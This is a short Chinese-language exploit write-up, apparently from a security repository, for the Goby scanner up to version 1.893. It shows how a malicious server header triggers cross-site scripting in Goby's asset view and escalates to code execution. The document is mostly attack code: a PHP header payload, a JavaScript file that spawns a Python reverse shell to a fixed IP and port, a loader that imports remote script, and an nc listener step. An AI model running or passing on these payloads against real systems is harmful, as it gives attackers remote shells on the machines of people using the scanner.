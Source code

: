 ## 影響版本
Goby <= 1.893

## XSS
在Web服務中創建index.php並且寫入以下內容：
```
<?php
header("X-Powered-By: PHP/<img    src=1    onerror=alert(\"TeamsSix@WgpSec\")>");
?>
```

使用Goby掃描目標，點擊左側的【全部資產】，然後點擊對應的資產URL即觸發XSS。


## RCE
要利用RCE漏洞需要創建一個js文件：

Mac：
```
(function(){
require('child_process').exec('open /System/Applications/Calculator.app');
require('child_process').exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.214.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
})();
```

如果使用的是Windows或者Macos，修改exec的Payload即可。


接下來修改index.php:
```
<?php
header("X-Powered-By: PHP/<img    src=1    onerror=import(unescape('http%3A//192.168.1.123/mac.js'))>");
?>
```

在192.168.1.123機器使用nc監聽4444端口，Goby點擊掃描，點擊【掃描結果】中192.168.1.123的【詳細信息】即觸發RCE漏洞。






